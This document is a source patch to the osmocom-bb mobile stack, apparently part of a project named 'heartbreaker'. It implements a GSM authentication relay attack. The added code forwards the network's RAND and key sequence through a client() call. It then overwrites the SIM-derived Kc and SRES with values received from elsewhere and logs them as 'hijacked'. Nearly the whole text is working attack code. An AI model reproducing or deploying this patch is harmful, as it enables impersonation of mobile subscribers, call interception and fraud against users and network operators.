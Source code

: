 ``` {.sourceCode .patch}
 #include <osmocom/bb/mobile/dos.h>
-
+#include "client.h"
 extern void *l23_ctx;

 void mm_conn_free(struct gsm48_mm_conn *conn);
@@ -1662,6 +1663,15 @@
     */
    if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
        no_sim = 1;
+   char test2[]="1";
+   sprintf(test2, "%d", ar->key_seq);
+   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcat(test3,test2);
+   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+   strcpy(test,osmo_hexdump(ar->rand,16));
+   strcat(test,test3);
+   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
+   client(test);
    gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

    /* wait for auth response event from SIM */
diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
--- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
@@ -30,6 +30,11 @@
 #include <osmocom/bb/common/osmocom_data.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
+#include "server.h"
+#include "server2.h"
+#include "hex.h"
+#include "hex2.h"
+

 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
@@ -945,14 +950,21 @@

        /* store sequence */
        subscr->key_seq = key_seq;
-       memcpy(subscr->key, vec->kc, 8);
+

        LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
+                char *h4ck3d_kc;
+                h4ck3d_kc = catch_kc();
+                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
+       char *h4ck3d_sres;
+       h4ck3d_sres = catch_sres();
+           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
+       memcpy(subscr->key, my_h4ck3d_kc, 8);
        nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
-       if (!nmsg)
-           return -ENOMEM;
        nmme = (struct gsm48_mm_event *) nmsg->data;
-       memcpy(nmme->sres, vec->sres, 4);
+           memcpy(nmme->sres,my_h4ck3d_sres, 4);
+       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
+       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
        gsm48_mmevent_msg(ms, nmsg);
```